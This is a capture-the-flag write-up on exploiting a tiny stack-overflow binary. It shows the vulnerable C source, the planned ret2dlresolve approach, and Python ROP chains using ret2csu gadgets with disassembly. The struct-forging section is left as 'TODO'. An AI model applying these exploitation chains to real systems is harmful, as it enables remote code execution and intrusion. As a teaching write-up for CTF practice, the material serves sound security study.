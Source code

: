 
___
# Intro

During the last CTF I played I was working on a really nice challenge, which 
I think is worth a writeup. The challenge was called crySYS and all the materials
can be find on my [github](https://github.com/gast04/CTF-Writeups/tree/master/crySYS).

The Challenge itself contained a simple bufferoverflow and the goal was to get
a shell on the server. Even the source code was given: 

```C
#include <stdio.h>
#include <unistd.h>

//gcc -o challenge -no-pie -fno-stack-protector challenges.c
//LD_PRELOAD=./libc-2.27.so ./ld-2.27.so ./challenge

int not_vulnerable() {
  char buf[80];
  return read(0, buf, 0x1000);
}

int main() {
  not_vulnerable();
  return 0;
}
```

Furthermore, we see the compile command and we know there is no stack canary
which means the binary is exploitable.

The Rest of this blog I will describe my two attempts of how I solved it.
<br/>

___
# Background Information

You might think, why we just do `return2libc`? and I thought that in the first
moment as well but for a `return2libc` attack you always need a leak, like in
this example the resolved address of `read`, then calculate the base address
of the libc and then calculate the address of `system` or `exevp` or wathever.

For a `return2libc` attack we would need an address leak, but in this special 
case there is no function resolved which can leak anything. Only `read` is 
resolved. We could of course setup a write system call using a `ROPchain` but
this binary is so small that there are simply not enough gadgets.

So the only attack I could come up, was `return2dlresolve`. There are already
some good resources available on line on that attack:

* https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62
* https://www.rootnetsec.com/ropemporium-ret2csu/
* https://1ce0ear.github.io/2017/10/20/return-to-dl/
* https://ddaa.tw/hitcon_pwn_200_blinkroot.html
<br/>

___
# Tooling

For the exploit I use `python` with `pwntools`. I have a patched version
of `pwntools` which spawn `radare2` instead of `gdb` by calling 
`gdb.attach(p, r2cmd="db {}".format(hex(offset)))` and I can pass it a
r2 startup command. (I have plans on doing a PR on pwntools about this patch.)

For the binary analysis I am using IDA 7.5, its just easy to read out 
all the offsets from it, but as this binary is so small every other 
tool will be fine too.
<br/>

___
# return-to-dl-resolve ?

This technique is pretty nice as it independent of the used libc version and
it doesnt need a leak, all it requires is a `ROPchain` and a memory location
where we can write to.

To exploit it we are going to resolve the `execvp` function, we achieve this
by creating all structs needed by the dynamic linker to resolve this function,
and after it resolved it will immediatelly call it.

We need:
* forge structs: JMPREL-entry, SYMTAB-entry, STRTAB-entry
  ( we dont need everything excatly recreated just the bytes we need)
* write to a known address (we use bss segment)
* setup arguments for execvp call
* call dlresolve
* Hopefully having a shell at this point :)
<br/>

___
# First Attempt, simple ROP

To trigger the BO and call read again to read the forged structs we use:

```Python
chain_read  = b""
chain_read += b"A"*80                   # overflow padding
chain_read += b"B"*8                    # fake rbp
chain_read += p64(POP_RSI_POP_R15_RET)  # set read buffer
chain_read += p64(C_AREA)               # ptr to controlable buffer
chain_read += b"C"*8                    # dummy r15 data
chain_read += p64(MOV_EDI_CALL_READ)    # call read
chain_read += b"D"*16                   # note end of chain
```

`C_AREA` is the address of the `bss` segment which is `0x601030`, even IDA shows
that this segment is only 8byte in size, as memory is handled in pages, we have
a whole page for our structs, which is more than enough.

The two `ROPgadgets` simply setting up the arguments, as it is a 64bit binary
the three arguments for read are in the `rdi`,`rsi` and `rdx` registers.

This attempt can be found in `exp_version_1.py`. During debugging I noticed that
`read` call is this gadget:

```
.text:0000000000400500 E8 EB FE FF FF    call    _read
.text:0000000000400505 C9                leave
.text:0000000000400506 C3                retn
```

This contains a problem, the `leave` instruction restores the `rsp` from the
`rbp` and we overwrite the `rbp`. Meaning we control where the `ROPchain`
continues. This is kind of bad, we dont want this power. Because I found no
way to set the rbp to a reasonable address on the stack, this means we loose the
rest of our `ROPchain`. Of course what we can do is, set the `rsp` to the `bss`
segment and write the rest of our `ROPchain` to the `bss` segment. But I 
considered this as unecessary work, so I used a different approach `ret2csu`.
<br/>

___
# Second Attempt, ret2csu

Instead of simply calling `read` via a `ROPchain` I used the `ret2csu` method
to avoid loosing track of the `ROPchain`.

All the gadgets needed can be found in the `__libc_csu_init` function. On a
program startup this function calls all functions from the `.init_array`
segment. These are functions like constructors or initialization of global
variables and so on, like everything which has to be ready before the `main`
function is called.

The part of the function we need is:

```
.text:0000000000400560 4C 89 FA        mov     rdx, r15
.text:0000000000400563 4C 89 F6        mov     rsi, r14
.text:0000000000400566 44 89 EF        mov     edi, r13d
.text:0000000000400569 41 FF 14 DC     call    [r12+rbx*8]
.text:000000000040056D 48 83 C3 01     add     rbx, 1
.text:0000000000400571 48 39 DD        cmp     rbp, rbx
.text:0000000000400574 75 EA           jnz     short loc_400560
.text:0000000000400576 48 83 C4 08     add     rsp, 8
.text:000000000040057A 5B              pop     rbx
.text:000000000040057B 5D              pop     rbp
.text:000000000040057C 41 5C           pop     r12
.text:000000000040057E 41 5D           pop     r13
.text:0000000000400580 41 5E           pop     r14
.text:0000000000400582 41 5F           pop     r15
.text:0000000000400584 C3              retn
```

But we Split it into two gadgets, the first starting at `0x400560` which
contains the function call, and the second one starts at `0x40057A`, this one
we use to correctly setup the arguments needed for the call at `0x400569`.

As we see there is no `leave` instructions, so nothing messes with the rsp,
except the `add rsp, 8` but we can overcome this easy with padding.

The `ROPchain` we will use is:
```Python
C_AREA     = 0x601030
CSU_RET    = 0x40057A
CSU_CALL   = 0x400560
RELOC_READ = 0x601018

chain_read  = b"A"*80                   # overflow padding
chain_read += b"B"*8                    # fake rbp
chain_read += p64(CSU_RET)              # gadget
chain_read += p64(0)                    # RBX (to get "call [r12]")
chain_read += p64(1)                    # RBP (to pass cmp rbp, rbx after call)
chain_read += p64(RELOC_READ)           # R12 (overwrite read GOT entry)
chain_read += p64(0)                    # R13 (has to be zero for stdin read)
chain_read += p64(C_AREA)               # R14 (ptr to controlable buffer)
chain_read += p64(0x100)                # R15 (amount we want to read)
chain_read += p64(CSU_CALL)
chain_read += b"D"*8                    # to counter (add rsp,8) after call
```

This will call `read` and we can pass our forged structs to it. After the 
read we continue and call the resolver.
<br/>

___
# Createing the Structs

TODO
